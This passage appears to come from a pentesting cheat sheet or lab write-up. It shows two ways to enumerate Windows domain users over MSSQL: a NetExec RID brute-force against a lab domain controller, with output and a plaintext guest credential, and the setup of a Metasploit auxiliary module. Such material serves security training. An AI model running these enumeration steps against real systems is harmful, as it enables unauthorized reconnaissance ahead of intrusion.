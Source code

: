 {{< /tabcontent >}}
{{< tabcontent set2-1 tab2 >}}

#### 1. Domain Users Enum

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth --rid-brute
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth --rid-brute
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
MSSQL       10.129.254.242  1433   DC               498: REDELEGATE\Enterprise Read-only Domain Controllers
MSSQL       10.129.254.242  1433   DC               500: WIN-Q13O908QBPG\Administrator
---[SNIP]---
```

{{< /tabcontent >}}
{{< tabcontent set2-1 tab3 >}}

#### 1. Metasploit

```console
msfconsole
```

#### 2. Use Module

```console
use auxiliary/admin/mssql/mssql_enum_domain_accounts
```

#### 3. Set Params

```console
set RHOST <TARGET>
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set RHOST 10.129.234.50
RHOST => 10.129.234.50
```

```console
set RPORT <PORT>
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set RPORT 1433
RPORT => 1433
```

```console
set USERNAME <USER>
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set USERNAME SQLGuest
USERNAME => SQLGuest
```
